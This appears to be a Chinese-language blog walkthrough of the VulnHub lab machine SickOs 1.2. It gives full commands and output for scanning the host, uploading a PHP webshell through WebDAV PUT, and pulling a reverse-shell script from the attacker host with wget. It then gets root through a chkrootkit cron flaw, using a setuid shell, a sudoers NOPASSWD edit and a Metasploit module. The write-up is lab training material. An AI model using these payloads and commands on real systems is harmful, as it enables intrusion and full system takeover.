

# 📖 1. Preface
护网接近尾声(最后疯狂的三天，据说无差别攻击)，等到下周一(8号)就彻底结束了，唯一难受的地方在于疫情爆发，不知道回去要不要隔离(目前看来回都回不去了)。

😢算了，不考虑这些不可控因素了。继续开始旅程🧑🏻‍💻。

今天主要目标是sickos1.2，下载地址 ：🔗 https://www.vulnhub.com/entry/sickos-12,144/

# 📖 2. Information Gathering

## 2.1 nmap-端口和服务
老规矩依然先探测一下开放的端口，初步确定一下攻击面：
<details>
<summary>nmap -sT -p- -A -T5 -Pn -oN nmap_192.168.3.225.txt 192.168.3.225</summary>

```shell
# Nmap 7.92 scan initiated Sat Aug  6 11:11:58 2022 as: nmap -sT -p- -A -T5 -Pn -oN nmap_192.168.3.225.txt 192.168.3.225
Nmap scan report for 192.168.3.225
Host is up (0.017s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: lighttpd/1.4.28
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (96%), Linux 3.16 - 4.6 (96%), Linux 3.2 - 4.9 (96%), Linux 4.4 (96%), Linux 3.13 (92%), Linux 4.2 (91%), Linux 3.11 - 4.1 (89%), Linux 3.13 - 3.16 (89%), Linux 3.16 (89%), OpenWrt Chaos Calmer 15.05 (Linux 3.18) or Designated Driver (Linux 4.1 or 4.4) (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT     ADDRESS
1   1.80 ms 192.168.64.1
2   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug  6 11:26:33 2022 -- 1 IP address (1 host up) scanned in 875.32 seconds
```
</details>

可以看到只开放了ssh和web服务器，浏览一下web界面

## 2.2 web服务
<details>
<summary>chrome查看一下没有发现有用的信息，查看源代码也是一样，没有发现有用的信息(使用curl查看源代码是非常的清晰)</summary>
</br>

```shell
# 因为输出内容中有很多空行，所以使用grep过滤一下空行
┌──(root㉿sk2022)-[/sickos12]
└─# curl -s http://192.168.168.116/ | grep .* -o
<html>

</html>
<!-- NOTHING IN HERE ///\\\ -->>>>
```
</details>

### 2.2.1 dirsearch 扫描目录
<details>
<summary>dirsearch扫描目录</summary>

```shell
┌──(root㉿sk2022)-[/sickos12]
└─# cat dirsearch_192.168.168.116.txt 
# Dirsearch started Sun Aug  7 09:25:35 2022 as: dirsearch.py -u http://192.168.168.116 -w /usr/share/wordlists/dirb/common.txt --full-url -o /sickos12/dirsearch_192.168.168.116.txt

200   163B   http://192.168.168.116:80/index.php
301     0B   http://192.168.168.116:80/test    -> REDIRECTS TO: http://192.168.168.116/test/
```
</details>

### 2.2.2 gobuster 扫描目录

<details>
<summary>gobuster扫描目录</summary>

```shell
┌──(root㉿sk2022)-[/sickos12]
└─# cat gobuster_192.168.168.116.txt 
/test                 (Status: 301) [Size: 0] [--> http://192.168.168.116/test/]
```
</details>

### 2.2.3 dirb 扫描目录
<details>
<summary>dirb扫描目录</summary>

```shell
┌──(root㉿sk2022)-[/sickos12]
└─# cat dirb_192.168.168.116.txt     

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb_192.168.168.116.txt
START_TIME: Sun Aug  7 08:14:05 2022
URL_BASE: http://192.168.168.116/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Printing LOCATION header

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.168.116/ ----
+ http://192.168.168.116/index.php (CODE:200|SIZE:163)
==> DIRECTORY: http://192.168.168.116/test/

---- Entering directory: http://192.168.168.116/test/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Sun Aug  7 08:14:42 2022
DOWNLOADED: 4612 - FOUND: 1
```
</details>

### 2.2.4 nikto 探测常用web漏洞
<details>
<summary>nikto扫描(这里是加了/test目录)</summary>

```shell
┌──(root㉿sk2022)-[/sickos12]
└─# cat nikto_test_192.168.168.116.txt 
- Nikto v2.1.6/2.1.5
+ Target Host: 192.168.168.116
+ Target Port: 80
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OSVDB-3268: GET /test/: Directory indexing found.
```
</details>

# 📖 3. Vulnerability Analysis
经过目录、漏洞扫描，只找到web服务的/test目录，浏览器访问一下可以看到该目录能被遍历：
 <br />
除此之外没有发现别的有用的信息😭,卡这里很久，浪费了很多时间也没有头绪。

## 3.1 web特定目录支持的http方法
最后尝试了一下使用options测试http头方法
### 3.1.1 curl测试
<details>
<summary>curl脚本测试http头方法</summary>

```shell
┌──(root㉿sk2022)-[/sickos12]
└─# curl -X OPTIONS -0 --http1.0 http://192.168.168.116/test -v   
*   Trying 192.168.168.116:80...
* Connected to 192.168.168.116 (192.168.168.116) port 80 (#0)
> OPTIONS /test HTTP/1.0
> Host: 192.168.168.116
> User-Agent: curl/7.82.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 301 Moved Permanently
< DAV: 1,2
< MS-Author-Via: DAV
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Location: http://192.168.168.116/test/
< Content-Length: 0
< Connection: close
< Date: Sun, 07 Aug 2022 14:21:56 GMT
< Server: lighttpd/1.4.28
< 
* Closing connection 0
```
</details>


### 3.1.2 nmap测试
<details>
<summary>nmap脚本测试http方法</summary>

```shell
┌──(root㉿sk2022)-[/sickos12]
└─# cat nmap_http_methods_192.168.168.116.txt 
# Nmap 7.92 scan initiated Sun Aug  7 10:11:55 2022 as: nmap --script http-methods --script-args http-methods.url-path=/test -o nmap_http_methods_192.168.168.116.txt 192.168.168.116
Nmap scan report for 192.168.168.116
Host is up (0.069s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-methods: 
|   Supported Methods: PROPFIND DELETE MKCOL PUT MOVE COPY PROPPATCH LOCK UNLOCK GET HEAD POST OPTIONS
|   Potentially risky methods: PROPFIND DELETE MKCOL PUT MOVE COPY PROPPATCH LOCK UNLOCK
|_  Path tested: /test
MAC Address: A4:5E:60:C2:D9:0B (Apple)

# Nmap done at Sun Aug  7 10:12:28 2022 -- 1 IP address (1 host up) scanned in 33.31 seconds
```
</details>
有没有人有其他办法，可以教教我🤪


# 📖 4. Exploitation

## 4.1 php-reverse-shell
<details>
<summary>curl上传、访问，反弹shell</summary>

```shell
# curl --upload-file参数尝试不成功，不知道为啥😤
┌──(root㉿sk2022)-[/sickos12]
└─# curl -X PUT -d '<?php system($_GET["cmd"]);?>' http://192.168.168.116/test/pss.php -v
*   Trying 192.168.168.116:80...
* Connected to 192.168.168.116 (192.168.168.116) port 80 (#0)
> PUT /test/pss.php HTTP/1.1
> Host: 192.168.168.116
> User-Agent: curl/7.82.0
> Accept: */*
> Content-Length: 29
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 201 Created
< Content-Length: 0
< Date: Sun, 07 Aug 2022 14:58:01 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.168.116 left intact
┌──(root㉿sk2022)-[/sickos12]
└─# curl "http://192.168.168.116/test/pss.php?cmd=pwd;id"
/var/www/test
uid=33(www-data) gid=33(www-data) groups=33(www-data)
# 这里先用hURL进行一下编码
┌──(root㉿sk2022)-[/sickos12]
└─# hURL -U "wget http://192.168.168.105:443/php-reverse-shell.php" -s                                        
wget%20http%3A%2F%2F192.168.168.105%3A443%2Fphp-reverse-shell.php 
┌──(root㉿sk2022)-[/sickos12]
└─# curl "http://192.168.168.116/test/pss.php?cmd=wget%20http%3A%2F%2F192.168.168.105%3A443%2Fphp-reverse-shell.php"
# 临时服务器监听，等待下载请求：
ppdeMacBook-Pro:/tmp:% python3 -m http.server 443                            
Serving HTTP on :: port 443 (http://[::]:443/) ...
::ffff:192.168.168.116 - - [07/Aug/2022 23:07:41] "GET /php-reverse-shell.php HTTP/1.1" 200 -
# 请求webshell，使其在服务器端执行
pp@ppdeMacBook-Pro /tmp
⚡ curl http://192.168.168.116/test/php-reverse-shell.php
# 攻击机，本地执行监听等待反弹shell
┌──(root㉿sk2022)-[/sickos12]
└─# nc -lnvp 8080
listening on [any] 8080 ...
connect to [192.168.168.118] from (UNKNOWN) [192.168.168.116] 44355
Linux ubuntu 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 08:08:47 up  5:10,  0 users,  load average: 0.05, 0.03, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
</details>

## 4.2 msfvenom生成php
<details>
<summary>msfvenom生成payload，msf监听</summary>

```shell
┌──(root㉿sk2022)-[/sickos12]
└─# msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.168.118 lport=443 -f raw -o pmr118.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1115 bytes
Saved as: pmr118.php
┌──(root㉿sk2022)-[/sickos12]
└─# nmap --script-help http-put.nse
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-07 09:48 EDT

http-put
Categories: discovery intrusive
https://nmap.org/nsedoc/scripts/http-put.html
  Uploads a local file to a remote web server using the HTTP PUT method. You must specify the filename and URL path with NSE arguments.
                                                                                                                           
┌──(root㉿sk2022)-[/sickos12]
└─# sed -n '10,30p' /usr/share/nmap/scripts/http-put.nse 
---
-- @usage
-- nmap -p 80 <ip> --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'
--
-- @output
-- PORT     STATE SERVICE
-- PORT   STATE SERVICE
-- 80/tcp open  http
-- |_http-put: /uploads/rootme.php was successfully created
--
-- @args http-put.file - The full path to the local file that should be uploaded to the server
-- @args http-put.url  - The remote directory and filename to store the file to e.g. (/uploads/file.txt)
--
-- @xmloutput
-- <elem key="result">/uploads/rootme.php was successfully created</elem>
--
-- Version 0.1
-- Created 10/15/2011 - v0.1 - created by Patrik Karlsson <patrik@cqure.net>
-- Revised 10/20/2011 - v0.2 - changed coding style, fixed categories <patrik@cqure.net>
--
┌──(root㉿sk2022)-[/sickos12]
└─# nmap -p 80 192.168.168.116 --script http-put --script-args http-put.url='/test/pmr118.php',http-put.file='/sickos12/pmr118.php'
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-07 09:52 EDT
Nmap scan report for 192.168.168.116
Host is up (0.14s latency).

PORT   STATE SERVICE
80/tcp open  http
|_http-put: /test/pmr118.php was successfully created
MAC Address: A4:5E:60:C2:D9:0B (Apple)

Nmap done: 1 IP address (1 host up) scanned in 22.06 seconds
┌──(root㉿sk2022)-[/sickos12]
└─# curl -s http://192.168.168.116/test/pmr118.php

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.168.118
msf6 exploit(multi/handler) > set lport 443
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.168.118:443 
msf6 exploit(multi/handler) > [*] Sending stage (39860 bytes) to 192.168.168.116
[*] Meterpreter session 1 opened (192.168.168.118:443 -> 192.168.168.116:52633 ) at 2022-08-07 09:53:27 -0400

msf6 exploit(multi/handler) > 
msf6 exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information        Connection
  --  ----  ----                   -----------        ----------
  1         meterpreter php/linux  www-data @ ubuntu  192.168.168.118:443 -> 192.168.168.116:52633  (192.168.168.116)

msf6 exploit(multi/handler) >
msf6 exploit(multi/handler) > sessions -i 1
meterpreter > shell
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/test
```
</details>

## 4.3 msfvenom生成elf
原理同 4.2 msfvenom生成php 只不过过程曲折一些，先获取一个shell，然后上传msfvenom生成的elf并执行，等待反弹shell，但是感觉这就是自己想出来的绕了两圈的方法，我能想到的应用场景应该就是把拿到的webshell转移到msf上来，当然用于熟悉日常工具也是有好处的。😬


# 📖 5. Post-Exploitation
这里需要强调一个坑点,你攻击机需要监听能够出网的端口，22/80/8080/443这几个端口，其他端口是不行的，这个在我前期测试的时候也是一个困惑点，我以为是哪里配置有误，后面看到这个我才明白。
```shell
cat newRule
# Generated by iptables-save v1.4.12 on Mon Apr 25 22:48:24 2016
*filter
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [0:0]
-A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A INPUT -p tcp -m tcp --sport 8080 -j ACCEPT
-A INPUT -p tcp -m tcp --sport 443 -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 22 -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 80 -j ACCEPT
-A OUTPUT -p tcp -m tcp --dport 8080 -j ACCEPT
-A OUTPUT -p tcp -m tcp --dport 443 -j ACCEPT
COMMIT
# Completed on Mon Apr 25 22:48:24 2016
```
再有就是在这个靶机的提权，我在内核提权上面花费了大量时间🤕，测试了很多exp但是都不成功，就是应为我太相信linux提权工具了(它报了内核%99可以提权)，后面才发现通过查看定时任务(cat /etc/crontab)有一个chkrootkit的工具是一个低版本的存在漏洞。但是在利用的过程中我存在一个疑问，明明显示的是每天6点25才执行一次，为啥真正在提权的时候却是感觉几分钟就执行一次呢，难道说chkrootkit这个运行起来后会一直会每隔几分钟执行一次/tmp/update?🤷🏿

```shell
www-data@ubuntu:/tmp$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

## 5.1 编写.c并编译，并添加s属性
```shell
$ cat exploit.c
int main(void) {
setgid(0); setuid(0);
system("/bin/sh");
}
$ gcc exploit.c -o exploit
$ echo 'chown root /tmp/exploit; chgrp root /tmp/exploit; chmod u+s /tmp/exploit;' > /tmp/update
$ ls -al
total 36
drwxrwxrwt  4 root     root     4096 Aug  7 08:42 .
drwxr-xr-x 22 root     root     4096 Mar 30  2016 ..
drwxrwxrwt  2 root     root     4096 Aug  6 20:46 VMwareDnD
-rwxrwxrwx  1 www-data www-data 7239 Aug  7 08:40 exploit
-rwxrwxrwx  1 www-data www-data   60 Aug  7 08:19 exploit.c
srwxr-xr-x  1 www-data www-data    0 Aug  6 20:46 php.socket-0
-rw-rw-rw-  1 www-data www-data   74 Aug  7 08:42 update
-rw-r--r--  1 root     root     1600 Aug  6 20:46 vgauthsvclog.txt.0
drwx------  2 root     root     4096 Aug  6 20:46 vmware-root
....
$ ls -al   
total 36
drwxrwxrwt  4 root     root     4096 Aug  7 08:43 .
drwxr-xr-x 22 root     root     4096 Mar 30  2016 ..
drwxrwxrwt  2 root     root     4096 Aug  6 20:46 VMwareDnD
-rwsrwxrwx  1 root     root     7239 Aug  7 08:40 exploit
-rwxrwxrwx  1 www-data www-data   60 Aug  7 08:19 exploit.c
srwxr-xr-x  1 www-data www-data    0 Aug  6 20:46 php.socket-0
-rwxrwxrwx  1 www-data www-data   74 Aug  7 08:42 update
-rw-r--r--  1 root     root     1600 Aug  6 20:46 vgauthsvclog.txt.0
drwx------  2 root     root     4096 Aug  6 20:46 vmware-root
$ ./exploit
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
## 5.2 修改sudoers文件
```shell
$ echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
$ sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ sudo su
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/tmp
```
## 5.3 msf-chkrootkit提权
```shell
msf6 exploit(multi/handler) > use exploit/unix/local/chkrootkit
msf6 exploit(unix/local/chkrootkit) > set session 1
msf6 exploit(unix/local/chkrootkit) > set lport 443
msf6 exploit(unix/local/chkrootkit) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Started reverse TCP handler on 192.168.168.118:443
[!] Rooting depends on the crontab (this could take a while)
[*] Payload written to /tmp/update
[*] Waiting for chkrootkit to run via cron...
[*] Sending stage (40060 bytes) to 192.168.168.116
[+] Deleted /tmp/update
[*] Meterpreter session 2 opened (192.168.168.118:443 -> 192.168.168.116:52662 ) at 2022-08-07 11:48:04 -0400
msf6 exploit(unix/local/chkrootkit) > sessions -l

Active sessions
===============

  Id  Name  Type                      Information        Connection
  --  ----  ----                      -----------        ----------
  1         meterpreter php/linux     www-data @ ubuntu  192.168.168.118:443 -> 192.168.168.116:52633  (192.168.168.116)
  2         meterpreter python/linux  root @ ubuntu      192.168.168.118:443 -> 192.168.168.116:52662  (192.168.168.116)

msf6 exploit(unix/local/chkrootkit) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 14862 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
```

# 📖 6. Conclusion
这个靶机在做的时候，我优先考虑的是提权，以致于浪费了大量的时间在测试脚本上面，其实说白了，还是信息收集的不到位，通过linux提权工具(linpeas.sh)确实检测到内核版本可以提权，可惜测试的时候都失败了🤕。我想，这应该就是过度依赖工具的效果，可能有些脚本在检测的时候只是单纯依靠系统内核版本就确定是否存在提权漏洞，推及其它工具我想都多多少少存在这种问题，所以，我们平时更应该多关注分析漏洞的能力，只有对漏洞有一个深刻的理解，才能更有效的拿下目标，工具在其中只是一个辅助作用，切不可以此为依赖。
